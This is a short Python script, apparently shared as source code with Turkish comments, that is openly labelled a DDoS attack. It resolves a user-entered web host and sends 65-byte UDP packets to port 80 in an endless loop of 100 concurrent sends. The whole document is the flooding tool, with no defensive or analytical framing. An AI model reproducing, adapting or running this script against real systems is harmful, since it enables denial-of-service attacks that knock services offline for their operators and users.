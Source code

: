 # DDos Attack
import asyncio
import socket

# Hedef bilgiler
HOST = "Enter Web IP here"
PORT = 80  # HTTP varsayılan portu

# Maksimum eşzamanlı görev sayısı
MAX_CONCURRENT_REQUESTS = 100

# 65 baytlık veri
UDP_PACKET_SIZE = 65
MESSAGE = b"A" * UDP_PACKET_SIZE  # 65 baytlık sabit bir veri

# UDP ile veri gönderme fonksiyonu
async def udp_gonder(ip, port, i):
    try:
        # UDP soketi oluştur
        with socket.socket(socket.AF_INET, socket.SOCK_DGRAM) as udp_socket:
            udp_socket.sendto(MESSAGE, (ip, port))  # 65 baytlık veriyi gönder
            print(f"İstek {i}: 65 baytlık veri gönderildi")
    except Exception as e:
        print(f"İstek {i}: Hata oluştu - {e}")

# Eşzamanlı UDP gönderim grubu
async def udp_grubu_gonder(ip, port, baslangic, bitis):
    tasks = [udp_gonder(ip, port, i) for i in range(baslangic, bitis)]
    await asyncio.gather(*tasks)

# Sürekli UDP istek gönderme fonksiyonu
async def surekli_udp_istek():
    try:
        ip = socket.gethostbyname(HOST)  # Hostname'i IP adresine çevir
        i = 0
        while True:
            baslangic = i
            bitis = i + MAX_CONCURRENT_REQUESTS
            await udp_grubu_gonder(ip, PORT, baslangic, bitis)
            i += MAX_CONCURRENT_REQUESTS
    except Exception as e:
        print(f"UDP işlemi sırasında hata oluştu: {e}")

# Programı başlat
asyncio.run(surekli_udp_istek())
